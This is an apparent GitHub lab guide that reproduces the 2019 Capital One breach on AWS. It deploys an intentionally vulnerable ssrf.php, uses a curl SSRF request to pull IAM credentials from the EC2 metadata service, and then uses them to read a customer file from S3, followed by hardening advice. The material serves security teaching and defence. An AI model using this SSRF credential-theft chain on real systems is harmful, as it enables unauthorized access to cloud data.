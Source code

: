 # 2019 AWS Data Breach Demo Lab Guide

## 🌐 Overview

This lab demonstrates an attack based on the SSRF (Server-Side Request Forgery) vulnerability, which can be used to steal AWS credentials from an Amazon EC2 instance and further access sensitive data in S3 buckets. The goal is to understand the potential impact of SSRF vulnerabilities in cloud environments and explore best practices for securing cloud infrastructure.

## 📖 The Story

In this lab, we simulate a real-world scenario, 2019 Capital One data breach, where an attacker exploits a misconfigured web application on an EC2 instance. The vulnerable application allows the attacker to access the EC2 metadata service, retrieve IAM credentials, and subsequently gain unauthorized access to an S3 bucket. By performing this lab, we learn how simple misconfigurations can lead to serious security breaches in cloud environments.

![The Story](images/story.png)

## 🛠️ Lab Setup

### 🔧 Prerequisites

- An AWS user account with appropriate permissions.
- IAM user with permissions to create and manage resources.
- An EC2 instance running on AWS.
- A VPC to host the EC2 instance.
- An S3 bucket to store and access data.
- The EC2 instance must be accessible via the public internet.

![Lab Setup](images/lab.png)

### 📝 Lab Setup Steps

1. **📂 Clone the Repository**: Clone the repository that contains the necessary configuration files.
   
   ```sh
   git clone https://github.com/jasonYuRong/2019-AWS-Data-Breach-Demo.git
   ```

2. **📁 Navigate to the Directory**: Change into the cloned repository directory.
   
   ```sh
   cd 2019-AWS-Data-Breach-Demo
   ```

3. **🚀 Apply Terraform Configuration**: Use Terraform to set up the EC2 instance with the required configurations. This will automatically deploy Apache HTTP server and the vulnerable `ssrf.php` file.
   
   ```sh
   terraform apply
   ```

   Follow the prompts to approve the infrastructure changes. Terraform will create the EC2 instance along with the necessary configurations, including deploying Apache and the `ssrf.php` script.

> 🌿 What is Terraform?
Terraform is an open-source infrastructure as code (IaC) tool created by HashiCorp. It allows you to define and provision data center infrastructure using a high-level configuration language. Terraform can manage resources across a wide range of providers, such as AWS, Azure, and Google Cloud, making it a powerful tool for automating cloud infrastructure setup and scaling. In this lab, we use Terraform to quickly deploy the required AWS infrastructure, including EC2, VPC, S3 and IAM.

![Terraform](images/terraform.png)

## 🎯 Goal

The main goal of this lab is to gain unauthorized access to the S3 bucket by exploiting the SSRF vulnerability. Specifically, you will access the EC2 metadata service, obtain temporary AWS credentials, and use those credentials to retrieve an object from the S3 bucket.

## 💡 Solution & Walkthrough

### Step 1: 🔍 Set Up the SSRF Vulnerability Environment

The Terraform script has already set up Apache HTTP server and deployed a vulnerable PHP file `ssrf.php` on your EC2 instance. This file allows an attacker to exploit SSRF to access resources that should not be accessible externally, such as the EC2 metadata service.

### Step 2: 🚦 Launch an EC2 Instance and Ensure Accessibility

Make sure you have an AWS EC2 instance running with the following attributes:

- **Public IP**: A public IP address is assigned so it can be accessed from the internet.
- **IAM Role**: Configured with an IAM role (`ec2_role`) that has permissions to access S3 for the demo.
- Ensure that the HTTP server is running and accessible via the public IP of your EC2 instance.

### Step 3: 🚨 Exploit the SSRF Vulnerability to Access EC2 Metadata

Now you can exploit the SSRF vulnerability to get the IAM role credentials from the EC2 metadata service.

Run the following `curl` command:

```sh
curl http://<EC2_public_ip>/ssrf.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_role
```

- `<EC2_public_ip>`: Replace with your EC2 public IP.
- `169.254.169.254`: This is the IP address of the AWS EC2 metadata service, which is only accessible from within the instance.

### Step 4: 🗝️ Extract AWS Credentials and Set Environment Variables

After running the above `curl` command, you should see the temporary credentials for the IAM role, which include:
- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`
- `AWS_SESSION_TOKEN`

Next, set these credentials as environment variables to use AWS CLI for further operations. For example:

```sh
export AWS_ACCESS_KEY_ID="ASIAZDZTCACO7BAZ7KEE"
export AWS_SECRET_ACCESS_KEY="S7z6biyOscdzDEVuLLLXa0GwHYRdN89ivkMy/4Dz"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEFYaCXV..."
```

![export](images/export.png)

### Step 5: 📥 Use AWS CLI to Access the S3 Bucket

Using the credentials set in the previous step, you can now use AWS CLI to access the specified S3 bucket.

For example, download a file from the S3 bucket:

```sh
aws s3 cp s3://jhu-en-650-603/customer.json - | cat
```

![export](images/s3.png)

This command downloads the `customer.json` file from the S3 bucket and displays its contents in the terminal.

### 🎉 Lab Completion

At this point, we have successfully exploited an SSRF vulnerability in the EC2 instance to access the metadata service and used the retrieved credentials to access sensitive data in S3.

## 🔒 Reflection and Security Recommendations

1. **🚫 Restrict Metadata Access**:
   - Use `Instance Metadata Service v2 (IMDSv2)` to enhance security and prevent simple HTTP requests from accessing metadata.
   - In the instance's Terraform configuration, enforce IMDSv2 by setting:
     ```hcl
     metadata_options {
       http_tokens = "required"
       http_put_response_hop_limit = 1
     }
     ```

2. **🔑 Principle of Least Privilege**:
   - The IAM role assigned to the EC2 instance should follow the principle of least privilege, granting only the necessary S3 permissions to avoid over-privileged access.

3. **🛡️ Web Application Firewall (WAF)**:
   - Use a WAF to prevent SSRF attacks. WAFs can effectively block malicious requests to your web application.

4. **📝 Code Auditing and Input Validation**:
   - Ensure proper validation of user inputs to avoid directly using user input as part of a URL request.




## 📚 References

- [AWS Security Best Practices](https://docs.aws.amazon.com/general/latest/gr/aws-security-best-practices.html)
- [Understanding and Mitigating SSRF Vulnerabilities](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Terraform Documentation](https://www.terraform.io/docs/index.html)
- [AWS CLI Command Reference](https://docs.aws.amazon.com/cli/latest/reference/)
- [Instance Metadata Service (IMDSv2)](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- [Web Application Firewall (WAF)](https://aws.amazon.com/waf/)

